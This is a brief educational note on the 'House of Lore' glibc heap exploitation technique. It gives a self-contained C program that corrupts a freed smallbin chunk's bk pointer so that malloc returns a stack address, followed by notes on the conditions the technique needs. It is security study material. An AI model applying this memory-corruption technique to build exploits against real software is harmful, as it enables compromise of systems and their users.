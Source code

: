 # House of Lore
> LongChampion, 18/03/2020

This attack ideal is similar to *fastbin_dup_into_stack*, but it is used for smallbin.
```c
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *Victim = malloc(0x100 - 8);
    void *Barier = malloc(0x100 - 8);
    struct Chunk Fake, NextFake;

    free(Victim);
    struct Chunk *Real = (struct Chunk *) (Victim - 0x10);

    void *Large = malloc(0x200 - 8);

    Real->bk = &Fake;
    Fake.fd = Real;
    Fake.bk = &NextFake;
    NextFake.fd = &Fake;

    Victim = malloc(0x100 - 8);
    void *STACK = malloc(0x100 - 8);
}
```
There are some note:
- Chunk `Barier` is used to prevent `Victim` from becoming the top_chunk (which we can't free)
- After be freed, `Victim` is located in unsorted_bin, so we call `malloc` with request size larger than size of `Victim` to push `Victim` into smallbin.
- **All modify at `Victim` must happen after we pushed it into smallbin.**
- Chunk `Fake` and chunk `NextFake` can be located anywhere, it doens't need to be adjacent or have real size same as `Victim`, but their address should be aligned as well.
- `STACK` will point to `Fake.fd`, not `Fake`.
- This attack it NOT work against largebin because of size checking.
